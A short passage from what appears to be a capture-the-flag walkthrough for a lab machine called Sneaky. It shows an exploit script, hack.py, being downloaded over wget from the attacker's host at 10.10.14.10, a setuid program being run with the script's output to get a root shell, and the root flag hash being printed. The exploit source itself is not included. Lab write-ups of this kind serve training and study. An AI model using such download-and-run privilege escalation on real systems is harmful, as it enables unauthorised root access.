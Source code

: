     
    
    send to machine with sudo python3 -m http.server
    wget 10.10.14.10:8000/hack.py

    thrasivoulos@Sneaky:~$ wget 10.10.14.10:8000/hack.py
    --2020-11-09 18:00:36--  http://10.10.14.10:8000/hack.py
    Connecting to 10.10.14.10:8000... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 410 [text/plain]
    Saving to: ‘hack.py’

    100%[=================================================================================================================================================>] 410         --.-K/s   in 0s      

    2020-11-09 18:00:36 (69.9 MB/s) - ‘hack.py’ saved [410/410]

    thrasivoulos@Sneaky:~$ chal $(python hack.py)
    # whoami
    root
    # ls
    hack.py  index.html  user.txt
    # cd root
    sh: 3: cd: can't cd to root
    # cd /root
    # ls
    root.txt
    # cat root.txt
    c5153d86cb175a9d5d9a5cc81736fb33
